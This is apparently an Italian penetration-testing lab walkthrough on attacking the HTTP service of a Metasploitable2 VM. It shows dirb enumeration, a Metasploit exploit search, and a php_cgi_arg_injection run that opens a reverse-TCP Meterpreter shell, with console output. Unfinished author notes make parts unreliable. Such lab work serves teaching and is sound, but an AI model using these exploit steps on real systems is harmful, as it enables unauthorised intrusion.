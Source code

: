 L'HyperText Transfer Protocol (HTTP) è un protocollo a livello applicativo usato per la trasmissione d'informazioni sul web. Un server HTTP generalmente resta in ascolto delle richieste dei client sulla porta 80 usando il protocollo TCP a livello di trasporto; mentre sulla porta 443 si usa il più ben noto HTTP, la differenza sta nell'uso di un protocollo di crittografia attraverso TLS.

Gli attacchi a questo protocollo sono i più disparati vanno dal bypass dell'autenticazione dal lato client, fino al XSS (cross site scripting).

Vedremo adesso come sarebbe possibile accedere alla macchina metasploitable2 attraverso varie strade:
La più semplice consiste nel fare proprio il footprinting del servizio, quindi per prima cosa colleghiamoci ad esso attraverso un browser

<img src="/imgs/HTTP_grabbing.png" width="400"> </br>

Come al solito l'informazione che otteniamo per accedere al terminale è msfadmin/

Ma passiamo a qualcosa di più interessante. Per prima cosa utilizziamo un tool già installato sulla nostra macchina Kali, ovvero Dirb, il quale si occupa di fare __Web Context Scanner__ e quindi si occupa di trovare tutti i Web Object (nascosti o meno). Sostanzialmente funziona lanciando un attacco basato su dizionario, presente già sulla macchina Kali all'indirizzo __"/usr/share/wordlists/dirb/big.txt"__, e analizzando le risposte che ci vengono fornite.

Le pagine HTTP presentano una serie di valori in base allo stato della pagina, l'elenco è facilmente trovabile online https://it.wikipedia.org/wiki/Codici_di_stato_HTTP.

Ora per le nostre necessità abbiamo bisogno di lanciare il seguente comando, il quale si occuperà di usare il dizionario __big.txt__ con il flag __-X__ effettuiamo la ricerca per trovare i path presenti nel dizionario con estensione __.php__. Se lo lanciassimo senza quest'opzione troverebbe tutti i possibili percorsi nascosti che combaciano con quelli nel dizionario.

Il risultato è mostrato di seguito:
```
root@kali:~# dirb http://192.168.139.129 /usr/share/wordlists/dirb/big.txt -X .php

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Dec 12 23:43:37 2021
URL_BASE: http://192.168.139.129/
WORDLIST_FILES: /usr/share/wordlists/dirb/big.txt
EXTENSIONS_LIST: (.php) | (.php) [NUM = 1]

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://192.168.139.129/ ----
+ http://192.168.139.129/index.php (CODE:200|SIZE:891)                                                                                                    
+ http://192.168.139.129/phpinfo.php (CODE:200|SIZE:48119)                                                                                                
                                                                                                                                                          
-----------------
END_TIME: Sun Dec 12 23:44:01 2021
DOWNLOADED: 20458 - FOUND: 2

```

La cosa più bella di Dirb è che i risultati ottenuti possono essere aperti direttamente fornendo una vista del risultato

<img src="/imgs/HTTP_Dirb.png" width="500"> </br>

Così facendo abbiamo la possibilità di usare il file per effettuare l'enumerazione di tutti i servizi attivi e le risorse della macchina. Ma torniamo all'utilizzo di metasploit, il file __phpinfo.php__ ci dà anche informazioni sulla versione di php attiva sul server. Vediamo cosa trova metasploid:
```
root@kali:~# msfconsole

msf6 > search php 5.4.2

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/multi/http/op5_license                       2012-01-05       excellent  Yes    OP5 license.php Remote Command Execution
   1  exploit/multi/http/php_cgi_arg_injection             2012-05-03       excellent  Yes    PHP CGI Argument Injection
   2  exploit/windows/http/php_apache_request_headers_bof  2012-05-08       normal     No     PHP apache_request_headers Function Buffer Overflow


Interact with a module by name or index. For example info 2, use 2 or use exploit/windows/http/php_apache_request_headers_bof
```

Abbiamo non uno ma ben tre exploit disponibili, di cui due con una classificazione __Excellent__ concentramoci su questi. Il primo __exploit/multi/http/op5_license__ ci permette di eseguire comandi da remoto come root sulla macchina targhet, il nostro compito è quindi mandare un payload da far eseguire per garantirci una shell sulla macchina.

--__DEVO CAPIRE UN ATTIMO STA PARTE PERCHé NON L'HO SCRITTA BENE ma a quanto pare di default usa il payload php/meterpreter/reverse_tcp nello specifico un reverse_tcp permette di aprire una connessione ma dal target a me, in questo modo un firewall non blocca niente__

Mentre la seconda opzione __exploit/multi/http/php_cgi_arg_injection__ ci informa sulla vulnerabiltià di argument injection. Nello specifico questo modulo sfrutta il flag __-d__ per impostare l'esecuzione di codice nella pagina php.ini.

__--Sono arrivato qui ed ho pure fatto l'exploit, solo che non sono sicuro di aver avuto accesso all'altra macchina ma penso più alla mia .-. LOL cmq devo capire un attimos /129 è la target 128 sono io__
```
msf6 exploit(multi/http/php_cgi_arg_injection) > set lhost 192.168.139.128
lhost => 192.168.139.128
msf6 exploit(multi/http/php_cgi_arg_injection) > set rhost 192.168.139.129
rhost => 192.168.139.129
msf6 exploit(multi/http/php_cgi_arg_injection) > exploit

[*] Started reverse TCP handler on 192.168.139.128:4444 
[*] Sending stage (39282 bytes) to 192.168.139.129
[*] Meterpreter session 1 opened (192.168.139.128:4444 -> 192.168.139.129:41864) at 2021-12-13 00:45:40 -0500

meterpreter > sessions
Usage: sessions <id>

Interact with a different session Id.
This works the same as calling this from the MSF shell: sessions -i <session id>
```


